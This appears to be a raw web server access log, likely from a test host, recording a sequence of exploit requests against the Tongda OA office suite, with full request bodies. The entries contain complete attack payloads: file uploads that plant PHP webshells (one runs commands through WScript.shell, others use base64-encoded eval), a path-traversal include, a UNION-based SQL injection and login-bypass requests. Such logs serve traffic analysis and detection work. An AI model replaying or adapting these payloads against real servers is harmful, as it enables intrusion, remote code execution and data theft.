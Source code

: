 ```bash
192.168.17.1 - - [15/Nov/2022:10:27:35 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 47 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36" "-" "--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22Filename\x22\x0D\x0A\x0D\x0Aphp.jpg\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22ATTACHMENT\x22\x0D\x0A\x0D\x0A<?php $command='whoami';$wsh = new COM('WScript.shell');$exec = $wsh->exec('cmd /c '.$command);$stdout = $exec->StdOut();$stroutput = $stdout->ReadAll();echo $stroutput;?>\x0D\x0A--88d153850f4cd9519a022a3e88cd6569--\x0D\x0A"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //mobile/api/api.ali.php HTTP/1.1"200 31 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "--502f67681799b07e4de6b503655f5cae\x0D\x0AContent-Disposition: form-data; name=\x22file\x22; filename=\x22fb6790f4tongda.json\x22\x0D\x0AContent-Type: application/octet-stream\x0D\x0A\x0D\x0A{\x22modular\x22:\x22AllVariable\x22,\x22a\x22:\x22ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0dG9uZ2RhLnBocCcsJzw/cGhwICRhPSJ+K2QoKSJeIiF7K3t9IjskYj0keyRhfVsieCJdO2V2YWwoIiIuJGIpOz8+Jyk7==\x22,\x22dataAnalysis\x22:\x22{\x5C\x22a\x5C\x22:\x5C\x22\xE9\x8C\xA6',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\x5C\x22}\x22}\x0D\x0A--502f67681799b07e4de6b503655f5cae--"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //inc/package/work.php?id=../../../../../myoa/attach/approve_center/2204/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4tongda HTTP/1.1"500 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //fb6790f4tongda.php HTTP/1.1"404 56 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{C09D5F0C-5957-8F8D-E3C6-A1D23DF8CD6F}"
192.168.17.1 - - [15/Nov/2022:10:27:37 -0500] "POST //general/bi_design/appcenter/report_bi.func.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "_POST[dataset_id]=efgh'-@`'`)union select database(),2,user()#'&action=get_link_info&"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //general/file_folder/swfupload_new.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_ID\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_NAME\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22FILE_SORT\x22\x0D\x0A\x0D\x0A2\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22SORT_ID\x22\x0D\x0A\x0D\x0A------------GFioQpMK0vv2--"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{6047FF7A-0B4A-3311-E5A9-31D28A933872}"
192.168.17.1 - - [15/Nov/2022:10:27:39 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 25 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "--********\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22png\x22\x0D\x0AContent-Type: image/jpeg\x0D\x0A\x0D\x0A<?php file_put_contents($_SERVER[\x22DOCUMENT_ROOT\x22].\x22//zskwgpaodw.php\x22,base64_decode(\x22PD9waHAgJGE9In4rZCgpIl4iIXsre30iOyRiPSR7JGF9WyJ4Il07ZXZhbCgiIi4kYik7Pz4=\x22).\x22zskwgpaodw\x22);?><?php unlink(__FILE__);echo \x22zskwgpaodw\x22;?>\x0D\x0A--********\x0D\x0A\x0D\x0A"
192.168.17.1 - - [15/Nov/2022:10:27:39 -0500] "GET //mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
```
